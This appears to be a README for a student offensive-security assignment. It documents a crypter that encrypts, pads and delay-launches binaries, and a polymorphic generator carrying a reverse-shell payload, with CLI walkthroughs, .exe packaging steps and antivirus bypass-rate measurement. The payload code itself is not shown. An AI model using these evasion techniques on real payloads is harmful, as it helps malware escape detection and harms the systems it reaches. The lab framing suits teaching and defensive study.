








# Hidden-Bytes

Hidden-Bytes is a command-line toolkit of two programs built for the HiddenBytes assignment:

- **`evasion`** — encrypts a target binary into an authenticated HBX1 container, pads it to a requested size, and packages it into a self-extracting runner that waits for a configured delay and then decrypts and launches the recovered program.
- **`polymorphic`** — generates a self-modifying program that carries an encrypted payload (such as the reverse-shell payload in `lab/`), rewrites its own bytes on every run so its hash changes while its behaviour does not, and executes the payload.

Jump straight to [§4 — evasion](#4-tool-1--evasion--hbx1-container) or [§5 — polymorphic](#5-tool-2--polymorphic-generator) to use the tools.

> **Authorized use only.** These are offensive-security techniques intended for a controlled lab. Run them only inside the isolated Windows VM described in the subject, and only against files and hosts you own or are explicitly authorized to test. Misuse may be illegal.

## Contents

- [1. Project overview](#1-project-overview)
- [2. Subject and audit scope](#2-subject-and-audit-scope)
- [3. Requirements and setup](#3-requirements-and-setup)
- [3.5. Building single-file executables](#35-building-single-file-executables)
- [4. Tool 1 — Evasion / HBX1 container](#4-tool-1--evasion--hbx1-container)
- [5. Tool 2 — Polymorphic generator](#5-tool-2--polymorphic-generator)
- [6. End-to-end lab walkthrough](#6-end-to-end-lab-walkthrough)
- [7. Technical concepts](#7-technical-concepts)
- [8. Diagrams](#8-diagrams)
- [9. Audit checklist and evidence](#9-audit-checklist-and-evidence)
- [10. Defensive analysis](#10-defensive-analysis)
- [11. Limitations and known caveats](#11-limitations-and-known-caveats)
- [12. Ethics and lab safety](#12-ethics-and-lab-safety)

---

## 1. Project overview

Hidden-Bytes is a command-line educational project with two separate programs:

| Program | Main purpose | Output | Does it execute the input file? |
|---|---|---|---|
| `evasion` | Encrypt a target binary with AES-256-GCM into an HBX1 container, add random padding to a requested size, and package it into a self-extracting runner that waits for a delay and then decrypts and launches the recovered program | A self-extracting runner (a `.pyz` archive, or a native `.exe` when the output ends in `.exe`) | **Yes** — the runner waits for the delay, decrypts the embedded payload with its embedded key, and launches it as a child process. `--decrypt` can instead recover the payload to disk without executing it |
| `polymorphic` | Generate a self-modifying program that carries an encrypted payload, rewrites its own source on every run, and executes the payload | A generated program (script or `.exe`) | **Yes** — the embedded payload is decrypted, integrity-checked and executed, with the operator's own arguments forwarded to it |

### What this project demonstrates

- AES-256-GCM authenticated encryption with a freshly generated random key.
- A simple binary container format with a magic value, metadata, ciphertext, and padding.
- Exact final-size calculation for a requested padding increase.
- A recovery delay that is **enforced by the produced artifact itself**, not only by the tool.
- A self-extracting runner: one file that carries the encrypted payload, waits, decrypts, and launches the recovered program.
- AES-256-GCM encryption via the `cryptography` library, bundled into the `.exe` by PyInstaller so the native artifact is self-contained.
- Authentication failure when the wrong key or modified ciphertext is supplied.
- **File-level polymorphism**: a program that rewrites its own source on every run, so its hash changes while its behaviour does not.
- **A reverse shell payload** that connects back to an address the operator chooses, and the defensive telemetry that such a connection produces.
- How defenders can investigate unusual file structure and behavior.

---
## HBX1 Encryption and Recovery Flow

### 1. Encryption flow




### 2. Inspection and recovery flow



### 3. How to read the container



**Important notes**

- **Magic value:** identifies the container format.
- **Header length:** a 4-byte unsigned, big-endian integer specifying the JSON metadata length in bytes.
- **JSON metadata:** stores information such as the algorithm, nonce, original filename, original size, ciphertext length, and recovery delay.
- **Ciphertext and authentication tag:** AES-256-GCM encrypts the original bytes and produces a tag used to verify authenticity and integrity during decryption.
- **Random padding:** increases the artifact size; it is not part of the original file and does not strengthen the encryption.
- **Recovery delay:** the delay is stored in the metadata and enforced before the payload is recovered. The runner *artifact* enforces it when run, and `--decrypt` also honours it unless `--no-delay` is given.
- **SHA-256 comparison:** matching hashes provide evidence that the recovered file is byte-for-byte identical to the original.

**Note:** `--inspect` displays metadata without authenticating the ciphertext. Authentication is checked when decryption is attempted.


---

## 2. Subject and audit scope

The subject asks for binary manipulation, encryption, file-size changes, delayed behavior, polymorphism, a reverse-shell payload, and testing against antivirus detection. The table below maps each subject/audit item to where it is implemented and how to demonstrate it during the audit.

| Subject / audit topic | This implementation | How to demonstrate it |
|---|---|---|
| Encrypt an input file | Implemented using AES-256-GCM | Encrypt, then recover and compare SHA-256 hashes |
| Modify final file size | Implemented using random padding | Compare original size and artifact size |
| Requested size increase | Exact to the rounded MiB amount requested | Check `stat` / file properties and the CLI's size report |
| Delay | Stored in metadata and enforced by the produced artifact before the payload runs | Use a non-zero delay, run the artifact, and time the wait |
| Inspect binary/container structure | Implemented for HBX1 metadata | Run `--inspect` and examine the layout diagram |
| Polymorphic variants | Implemented: each generation uses a fresh key, nonce and signature token | Generate two files and compare hashes |
| Self-modification | Implemented: the program rewrites its own source on every run | Hash a generated program, run it, and hash it again |
| Stable behavior | Same payload behaviour on every run | Capture output from multiple runs |
| Reverse-shell connection | Implemented in `lab/reverse_shell_payload.py`; the target address and port are always operator-supplied | Start `lab/listener.py`, run the generated program with `--host`/`--port`, then type a command |
| Native Windows PE output | Produced automatically when the `--output` name ends in `.exe` (PyInstaller) inside the VM | A `.py` file or `.exe` filename does not by itself establish PE validity; check the file type |
| Defender / VirusTotal testing | Measured in the VM against the real Defender and VirusTotal | Run `lab/defender_scan.ps1` and `lab/vt_check.py`; record the verdict and detection ratio actually observed |
| Isolated Windows VM | Must be verified manually by the auditor | Capture hypervisor network and integration settings |

**Important audit wording:** the delay is enforced by the **artifact itself** in runner mode — the produced file waits, then decrypts and launches the payload. The tool does not need to be running for the wait to happen. The delay is a *pre-execution* delay: the payload has not started yet when the wait ends.

**Important audit wording (reverse shell):** the payload connects to exactly one address, chosen by the operator on the command line, and defaults to `127.0.0.1`. It has no persistence, no privilege escalation, no lateral movement, no discovery and no evasion. The demonstration is meaningful only inside an isolated lab.

---

## 3. Requirements and setup

### Prerequisites

- Python 3.10 or newer.
- The packages listed in `requirements-dev.txt` (including `cryptography`, `pytest` and `pefile`).
- A terminal: PowerShell on Windows, or a shell on Linux/macOS.
- For the subject demonstration, a dedicated Windows 10/11 virtual machine configured and inspected by the auditor.
- Optional, only for a native `.exe` build: `python -m pip install pyinstaller` **inside the isolated VM**. The Windows bootloader ships with the Windows package, so the build must happen in the VM.

### Recommended repository layout

```text
Hidden-Bytes/
├── src/
│   ├── __init__.py
│   ├── common.py          # shared utilities (key size, args)
│   ├── embedding.py       # shared PyInstaller / AES-source helpers
│   ├── evasion/             # HBX1 packaging tool (package)
│   │   ├── __init__.py      # public API re-exports
│   │   ├── __main__.py      # enables `python -m src.evasion`
│   │   ├── constants.py
│   │   ├── encoding.py
│   │   ├── container.py
│   │   ├── crypto.py
│   │   ├── runner.py        # self-extracting runner generation
│   │   └── cli.py
│   └── polymorphic.py       # self-modifying program generator
├── lab/
│   ├── reverse_shell_payload.py   # lab payload: connects back to the operator
│   ├── listener.py                # lab listener: accepts and relays one session
│   ├── vm_preflight.sh            # VM isolation and toolchain check (bash)
│   ├── vm_preflight.ps1           # VM isolation and Defender check (Windows)
│   ├── defender_scan.ps1          # scan an artifact with the real Defender
│   ├── detect_surface.py          # what a scanner can see in an artifact
│   └── vt_check.py                # VirusTotal submission and detection ratio
├── evasion                  # optional launcher script
├── polymorphic              # optional launcher script
├── tests/
├── requirements.txt
├── requirements-dev.txt
├── README.md
└── output/                  # generated examples; optional
```

The precise test filenames may differ in your checkout. Run every command below
from the **project root** so that the `src` package is importable.

### Windows PowerShell

```powershell
py -m venv .venv
.venv\Scripts\Activate.ps1
py -m pip install -r requirements-dev.txt

py -m src.evasion --help
py -m src.polymorphic --help
```

If PowerShell blocks virtual-environment activation due to local policy, use the Python executable in `.venv\Scripts\python.exe` directly rather than changing a system-wide execution policy just for this project.

### Linux / macOS

```bash
python3 -m venv .venv
source .venv/bin/activate
python3 -m pip install -r requirements-dev.txt

python3 -m src.evasion --help
python3 -m src.polymorphic --help
```

Run the test suite:

```bash
python3 -m pytest -q
```

If the repository includes executable wrapper scripts, they may also be used:

```bash
./evasion --help
./polymorphic --help
```

### Isolated lab configuration

Before any Windows demonstration, ask the auditor to verify:

1. The VM uses **Host-Only** or **Internal Network** mode as required by the lab scope.
2. Shared folders, shared clipboard, and drag-and-drop are disabled.
3. A clean snapshot exists and can be restored.
4. Only owned, harmless test files are used.
5. No confidential organizational file is uploaded to a public scanning service.
6. Evidence is saved without exposing keys or sensitive sample contents.

A README cannot prove the VM is isolated. Isolation must be checked in the hypervisor settings.

### Validate the VM yourself, before the audit

Because you build inside the VM every day, run the preflight check at the start of your session. It reports the isolation and toolchain state and gives you a file to hand to the auditor as evidence.

**Windows (native, in the VM):**

```powershell
powershell -ExecutionPolicy Bypass -File lab\vm_preflight.ps1 |
    Tee-Object -FilePath audit\vm-preflight.txt
```

**Windows (from Git Bash or WSL):**

```bash
bash lab/vm_preflight.sh | tee audit/vm-preflight.txt
```

The check covers:

| Area | What it verifies |
|---|---|
| Operating system | Windows 10 or 11, and a supported build number |
| Network isolation | No default gateway, public DNS fails, outbound HTTPS blocked |
| Python toolchain | Interpreter version, `cryptography`, `PyInstaller` |
| Tool smoke test | Both CLIs start and the test suite collects |
| Defender | Real-time protection on, no path exclusions, signature age, prior detections |

It is read-only: it inspects and reports, and it changes no setting.

Two results deserve attention:

- **A public DNS or HTTPS check that passes means the VM is not isolated.** Fix the adapter mode before you demonstrate anything.
- **Defender path exclusions matter for the audit.** If the demo folder is excluded, a local scan will not flag the artifact, and that is not evidence of anything. The preflight reports any exclusions so you and the auditor can talk about it.

### 3.5 Building single-file executables

Both tools can be packaged into a single native executable (a real `.exe` on
Windows) with PyInstaller. This is required for the audit demonstration on
Windows, because a Python script renamed to `.exe` does not run on Windows and
is not analysed as a program by a scanner.

Install PyInstaller inside the isolated VM:

```bash
python -m pip install pyinstaller
```

#### Evasion — single-file self-extracting runner

```bash
python3 -m src.evasion \
  --encrypt simple_program.exe \
  --output evaded_program.exe \
  --add-size 101 \
  --delay 101
```

An output path ending in `.exe` is packaged into a real native executable
automatically. The random AES-256 key is embedded in the executable, so no
passphrase or key file is required at run time. To recover the payload to disk
without running it, use `--decrypt` (the key is read from the runner itself).

An output path that does not end in `.exe` produces a `.pyz` self-extracting
runner instead — handy for a quick demonstration on Linux, where it needs only
a Python 3 interpreter and no PyInstaller.

#### Polymorphic — single-file executable

```bash
python3 -m src.polymorphic \
  --generate polymorphic.exe \
  --payload lab/reverse_shell_payload.py
```

An output path ending in `.exe` is packaged into a real native executable
automatically. The encrypted payload and the random key are embedded in the
executable; no passphrase is required at run time.


### What the audit's detection checks actually require

Audit items 7 and 8 are measurements you run in the VM. Nothing you write into the tool makes Defender miss a file; what decides the result is what the file looks like when a scanner opens it, and the only way to know is to measure it.

That splits the work in two:

**Part 1 — make the artifact a reasonable thing to scan.** This is code, and it is now done:

- The payload is encrypted, so it does not appear in the file in cleartext.
- The artifact is a **real PE executable**, because an output path ending in `.exe` is packaged natively by default. A Python archive renamed `.exe` does not run on Windows and no scanner analyses it as a program.
- The size increase is exact, so the file is the size the audit asks for.

**Part 2 — measure it.** This is a procedure, and the tooling is in `lab/`:

```bash
# What can a scanner see in this file? Local, read-only, nothing uploaded.
python3 lab/detect_surface.py evaded_program.exe
```

```powershell
# In the Windows VM: scan with the real Defender and record the verdict.
powershell -ExecutionPolicy Bypass -File lab\defender_scan.ps1 -Path .\evaded_program.exe
```

```bash
# Upload your own artifact to VirusTotal and read the detection ratio.
export VT_API_KEY='your-virustotal-api-key'
python3 lab/vt_check.py evaded_program.exe
```

`vt_check.py` prints the bypass rate the audit asks for and exits non-zero when the 60% threshold is not met. **Only upload artifacts you created yourself.** A VirusTotal sample is published to a public multi-scanner service and may be shared onward.

#### What to report if the measurement fails

Report the number you observed. A measured 45% bypass is a legitimate result and a good talking point; an unmeasured claim of 60% is not.

The honest analysis of what drives the score:

| Property | Effect on the detection ratio |
|---|---|
| Payload is encrypted | Removes signature matches on the payload's own bytes |
| High-entropy region larger than the code | Heuristic engines treat a small code section plus a large random blob as a packed or encrypted payload — this is the main driver, and the 101 MB padding the subject asks for makes the file *more* conspicuous, not less |
| File is a real PE | Required for any engine to analyse it as a program; a renamed script is not analysed at all |
| A frozen Python runtime | A recognisable footprint in its own right |
| The connection the payload makes | Visible on the network regardless of how the file looks |

The last row is the point worth making to the auditor: **the reverse shell is what gets caught**, not the file. Encrypting, padding and randomising the artifact change the bytes on disk and nothing about the outbound connection. That is why these checks are not really about the file.

---

## 4. Tool 1 — Evasion / HBX1 container

> **What this tool does:** encrypts a target file with AES-256-GCM, packages it into the HBX1 container format, pads it to a requested size, and builds a self-extracting runner that waits for a configured delay before decrypting and launching the recovered program. The runner launches the payload as an ordinary child process.

### 4.1 What the tool does

`src.evasion` has three operations:

- `--encrypt`: reads a file as bytes, encrypts it using AES-256-GCM, embeds the ciphertext and the random key in a launcher, pads the result to the requested size, and writes a **self-extracting runner**. When the `--output` name ends in `.exe` the runner is built into a native Windows executable; otherwise it is a `.pyz` archive. Running the runner waits for the recorded delay, decrypts the payload, writes it to a temporary directory, launches it, and removes the temporary directory.
- `--inspect`: parses and displays the container metadata without decrypting its contents.
- `--decrypt`: reads a runner, waits for the recorded recovery delay unless `--no-delay` is supplied, authenticates and decrypts the ciphertext using the key embedded in the runner, then writes the recovered bytes to disk. It never executes the recovered file.

The optional `--add-size` value requests an increase in the **final artifact size**. The tool fills the artifact with random padding to reach the target size. Padding is not encrypted content and does not make the encryption stronger.

### 4.1.1 How the runner enforces the delay

This is what the audit's *"the program enforces the execution delay correctly"* check looks for: the produced artifact itself waits before the payload runs.

```text
evasion --encrypt target --output obfuscated.exe
        │
        ├─ encrypt payload  →  AES-256-GCM container (ciphertext + metadata)
        ├─ embed container + key  →  inside the runner artifact
        └─ store delay      →  in the container header (delay_seconds)

$ ./obfuscated.exe
[INFO] Hidden-Bytes self-extracting runner.
[INFO] Execution delayed by 101 seconds...     ← the artifact waits
[INFO] Binary decrypted successfully.
[INFO] Target program executed.                ← only now is the payload run
```

The delay is **stored in the artifact and enforced by the artifact**. The tool does not need to be running, and no separate `--decrypt` step is involved. A defender watching the endpoint sees a process that stays alive doing nothing for 101 seconds and then spawns a child process — that behaviour is visible to behavioural monitoring even though the file's bytes are opaque.

Two details make this work in practice:

- **The artifact is self-contained.** The random AES-256 key is embedded in the launcher alongside the ciphertext, so the runner recovers its own payload with no separate key file and no passphrase.
- **The runner decrypts with the `cryptography` library.** For the `.pyz` form the library must be installed in the interpreter that runs it; for the `.exe` form PyInstaller bundles it, so the native artifact is self-contained.

### 4.2 CLI reference — all options

Display help:

```bash
python3 -m src.evasion --help
```

The module expects exactly one operation (`--encrypt`, `--decrypt`, or `--inspect`) and a positional input path called `source`.

| Option | Meaning | Notes |
|---|---|---|
| `source` | Input file (encrypt) or runner (decrypt/inspect) | Required positional argument |
| `--encrypt` | Encrypt the source file into a self-extracting runner | Must be used with `--output` |
| `--decrypt` | Recover the original file from a runner, without executing it | Must be used with `--output` |
| `--inspect` | Print runner/container metadata | Does not decrypt the payload |
| `--output PATH` | Destination path | Required for `--encrypt` and `--decrypt`. An `.exe` name produces a native executable; any other name produces a `.pyz` runner |
| `--add-size MB` | Requested increase in final artifact size | Help default: `0.01` MB; `1` requests 1 MiB (1,048,576 bytes); `101` requests 101 MiB |
| `--delay SECONDS` | Delay the runner enforces before launching the payload | Help default: `101` seconds; set a small value such as `2` for a quick demo |
| `--no-delay` | Skip the stored delay during `--decrypt` | Useful for controlled tests; it does not affect the delay a runner enforces when run |

The encryption key is a freshly generated 256-bit random key, embedded in the
runner so it can recover its own payload. No key file, passphrase, or
`HBX_PASSPHRASE` environment variable is used.

The defaults shown above are those reported by this project's CLI help. Explicitly set `--add-size` and `--delay` in demonstrations so the behavior is reproducible.

### 4.3 Complete Linux / Kali walkthrough

Run commands from the repository root (`~/Desktop/hidden-bytes`) with the virtual environment activated.

#### Step 1 — Create a harmless sample

```bash
printf 'Hello from Hidden-Bytes -- sample file\n' > sample.txt
wc -c sample.txt
```

`wc -c` shows the exact input length. The example string above is **39 bytes**, including its final newline.

#### Step 2 — Encrypt and add 1 MiB to the final size

```bash
python3 -m src.evasion \
  --encrypt sample.txt \
  --output sample.pyz \
  --add-size 1 \
  --delay 2
```

Expected artifacts:

```text
sample.txt       # original test file
sample.pyz       # self-extracting runner (carries the encrypted payload)
```

The runner is self-contained: the random AES-256 key is embedded in it, so there is **no separate `.key` file** — the runner recovers its own payload. An output name ending in `.exe` is packaged into a native executable instead (see Section 4.3.2); any other name produces this Python-archive runner.

Representative output from the tested 39-byte sample:

```text
[OK] Encryption completed.
[INFO] Input:       sample.txt
[INFO] Runner:      sample.pyz
[INFO] Original:    39 bytes
[INFO] Runner:      1048615 bytes
[INFO] Added:       1048576 bytes
[INFO] Delay:       2 second(s)
[INFO] Run the produced file to wait for the delay, decrypt and launch the payload.
```

`--add-size 1` requests 1 MiB (1,048,576 bytes) above the input size, so this sample's final runner is 39 + 1,048,576 = **1,048,615 bytes**. The launcher, metadata and encryption overhead are accounted for inside that final-size target.

#### Step 3 — Inspect the runner

```bash
python3 -m src.evasion --inspect sample.pyz
```

The command prints metadata similar to:

```json
{
  "algorithm": "AES-256-GCM",
  "artifact_size_bytes": 1048615,
  "artifact_type": "runner",
  "ciphertext_length": 55,
  "container_ciphertext_bytes": 55,
  "delay_seconds": 2.0,
  "nonce": "<random Base64 value>",
  "original_name": "sample.txt",
  "original_size": 39
}
```

The nonce changes between encryption runs, so the example nonce above is a placeholder. Inspection shows metadata; it does not reveal the secret key and does not by itself validate the ciphertext's authenticity. Authentication is checked during decryption.

#### Step 4 — Recover the original file (without running it)

```bash
python3 -m src.evasion \
  --decrypt sample.pyz \
  --output recovered.txt
```

A runner carries its key embedded, so `--decrypt` needs no key file. Expected behavior for a runner created with `--delay 2`:

```text
[INFO] Recovery delayed for 2 second(s)...
[OK] Recovery completed.
[INFO] Recovered file: recovered.txt
[INFO] The recovered file was written to disk but was NOT executed.
```

For a quick test that skips the configured wait:

```bash
python3 -m src.evasion \
  --decrypt sample.pyz \
  --output recovered-no-delay.txt \
  --no-delay
```

Use a different output filename if you want to keep both recovery results. `--no-delay` bypasses only the demonstration wait; it does not bypass encryption or authentication. `--decrypt` recovers the payload to disk but never executes it — to watch the runner execute the payload itself, run the runner directly (Section 4.3.1).

#### Step 5 — Verify recovery using SHA-256

```bash
sha256sum sample.txt recovered.txt
```

For the exact 39-byte sample from Step 1, both files produce the same hash:

```text
2aa96aef98b35be00d763d0090aed6df2bf99e49c830a72b34674cb06ed2a911  sample.txt
2aa96aef98b35be00d763d0090aed6df2bf99e49c830a72b34674cb06ed2a911  recovered.txt
```

That hash belongs to the exact sample content above. If you create a different sample, the hash will differ, but the original and recovered hashes should still match. Matching SHA-256 hashes provide evidence that the recovered file is byte-for-byte identical to the original.

Alternative byte-for-byte comparison:

```bash
cmp sample.txt recovered.txt && echo 'Files match'
```

Check file sizes:

```bash
stat -c '%n: %s bytes' sample.txt sample.pyz recovered.txt
```

### 4.3.1 The runner flow — the artifact enforces its own delay

This is the demonstration that matches the audit's *"does the program enforce the execution delay correctly?"* check, because the produced artifact itself waits and then launches the payload.

#### Step 1 — Prepare a target program

```bash
cat > simple_program.py <<'EOF'
print("Hello, World!")
EOF
```

#### Step 2 — Build the self-extracting runner

```bash
python3 -m src.evasion \
  --encrypt simple_program.py \
  --output obfuscated.pyz \
  --add-size 101 \
  --delay 101
```

Representative output:

```text
[OK] Encryption completed.
[INFO] Input:       simple_program.py
[INFO] Runner:      obfuscated.pyz
[INFO] Original:    23 bytes
[INFO] Runner:      105906199 bytes
[INFO] Added:       105906176 bytes
[INFO] Delay:       101 second(s)
[INFO] Run the produced file to wait for the delay, decrypt and launch the payload.
```

The size grew by exactly 101 MiB (105,906,176 bytes) above the input size.

#### Step 3 — Run it and watch the delay happen

```bash
time python3 obfuscated.pyz
```

Expected output (the run takes just over 101 seconds):

```text
[INFO] Hidden-Bytes self-extracting runner.
[INFO] Execution delayed by 101 seconds...
[INFO] Binary decrypted successfully.
[INFO] Target program executed.
Hello, World!
```

`time` reports roughly `real 1m41s`, which is the objective evidence that the delay is enforced rather than merely recorded.

#### Step 4 — Inspect the runner without decrypting it

```bash
python3 -m src.evasion --inspect obfuscated.pyz
```

```json
{
  "algorithm": "AES-256-GCM",
  "artifact_size_bytes": 105906199,
  "artifact_type": "runner",
  "ciphertext_length": 39,
  "delay_seconds": 101.0,
  "nonce": "<random Base64 value>",
  "original_name": "simple_program.py",
  "original_size": 23
}
```

#### Step 5 — Prove the payload is not visible in the artifact

```bash
grep -c "Hello, World!" obfuscated.pyz || echo "plaintext NOT found in the artifact"
```

The payload does not appear as plaintext in the artifact: it is AES-256-GCM ciphertext inside the container.

#### Step 6 — Look inside the runner (see how it works)

A `.pyz` runner is just a zip archive, so you can open it and read the launcher
source that runs on the target. This is the clearest way to *see* the runner:

```bash
mkdir peek
cd peek
unzip ../obfuscated.pyz        # → __main__.py  payload.hbx  (+ padding.bin)
less __main__.py               # the filled-in launcher: HBX_KEY = "..." and the cryptography import
cd ..
```

Inside `__main__.py` you will find the embedded `HBX_KEY`, the `from cryptography...`
import used to decrypt, and the `main()` that waits for the delay, decrypts, and
launches the payload. `payload.hbx` is the encrypted container; `padding.bin` is
the random filler that sets the exact size.

> **Note:** `unzip` reports `warning: … extra bytes at beginning` — that is the
> shebang line prepended to the archive, and is harmless.
>
> **Run `python3 -m src.evasion` from the repository root**, not from inside
> `peek/`. The `-m` form resolves the `src` package relative to the current
> directory, so running it elsewhere fails with `No module named 'src'`. (The
> `./evasion` launcher script works from any directory.)

#### Step 7 — Recover the payload from a runner without running it

```bash
python3 -m src.evasion \
  --decrypt obfuscated.pyz \
  --output recovered.py \
  --no-delay
cmp simple_program.py recovered.py && echo 'Files match'
```

### 4.3.2 Building a real `.exe` (Windows VM)

On Windows the audit expects an `.exe`, not a Python archive. **An output path ending in `.exe` is packaged into a real native executable automatically** — no extra flag is needed, because a Python script renamed to `.exe` does not run on Windows and is not analysed as a program by a scanner.

Install PyInstaller **inside the isolated VM**:

```bash
python -m pip install pyinstaller
```

